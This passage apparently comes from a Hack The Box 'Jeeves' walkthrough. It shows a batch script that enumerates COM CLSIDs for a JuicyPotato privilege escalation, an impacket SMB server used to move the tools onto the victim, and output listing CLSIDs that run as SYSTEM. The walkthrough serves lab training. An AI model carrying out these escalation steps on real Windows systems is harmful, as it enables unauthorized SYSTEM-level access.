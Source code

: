 Testing valid CLSIDs:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Jeeves/exploit]
└─$ cat test_clsid.bat
@echo off
:: Starting port, you can change it
set /a port=10000
SETLOCAL ENABLEDELAYEDEXPANSION

FOR /F %%i IN (CLSID_only.list) DO (
   echo %%i !port!
   .\JP.exe -z -l !port! -c %%i >> result.log
   set RET=!ERRORLEVEL!
   :: echo !RET!
   if "!RET!" == "1"  set /a port=port+1
)

┌──(kali㉿kali)-[~/…/HTB/box/Jeeves/exploit]
└─$ ls    
CLSID.list  CLSID_only.list  revshell.ps1  test_clsid.bat
          
┌──(kali㉿kali)-[~/…/HTB/box/Jeeves/exploit]
└─$ sudo impacket-smbserver kali . -smb2support             
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
```

```powershell
C:\users\kohsuke\downloads>copy \\10.10.14.14\kali\CLSID_only.list CLSID_only.list
copy \\10.10.14.14\kali\CLSID_only.list CLSID_only.list
        1 file(s) copied.

C:\users\kohsuke\downloads>copy \\10.10.14.14\kali\test_clsid.bat test_clsid.bat
copy \\10.10.14.14\kali\test_clsid.bat test_clsid.bat
        1 file(s) copied.

C:\users\kohsuke\downloads>.\test_clsid.bat
.\test_clsid.bat
{00021401-0000-0000-C000-000000000046} 10000
{000C101C-0000-0000-C000-000000000046} 10000
{0010890e-8789-413c-adbc-48f5b511b3af} 10000
{00f2b433-44e4-4d88-b2b0-2698a0a91dba} 10000
...
C:\users\kohsuke\downloads>type result.log
type result.log
{0289a7c5-91bf-4547-81ae-fec91a89dec5};JEEVES\kohsuke
{03ca98d6-ff5d-49b8-abc6-03dd84127020};NT AUTHORITY\SYSTEM
{0fb40f0d-1021-4022-8da0-aab0588dfc8b};NT AUTHORITY\LOCAL SERVICE
{1BE1F766-5536-11D1-B726-00C04FB926AF};NT AUTHORITY\LOCAL SERVICE
{1ecca34c-e88a-44e3-8d6a-8921bde9e452};NT AUTHORITY\SYSTEM
{204810b9-73b2-11d4-bf42-00b0d0118b56};NT AUTHORITY\LOCAL SERVICE
{2e5e84e9-4049-4244-b728-2d24227157c7};NT AUTHORITY\LOCAL SERVICE
{30766BD2-EA1C-4F28-BF27-0B44E2F68DB7};NT AUTHORITY\SYSTEM
{3c6859ce-230b-48a4-be6c-932c0c202048};NT AUTHORITY\SYSTEM
{42CBFAA7-A4A7-47BB-B422-BD10E9D02700};NT AUTHORITY\SYSTEM
{4661626C-9F41-40A9-B3F5-5580E80CB347};NT AUTHORITY\SYSTEM
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM
{4B6C85F1-A6D9-433A-9789-89EA153626ED};NT AUTHORITY\SYSTEM
{4d233817-b456-4e75-83d2-b17dec544d12};NT AUTHORITY\SYSTEM
{659cdea7-489e-11d9-a9cd-000d56965251};NT AUTHORITY\SYSTEM
{69AD4AEE-51BE-439b-A92C-86AE490E8B30};NT AUTHORITY\SYSTEM
```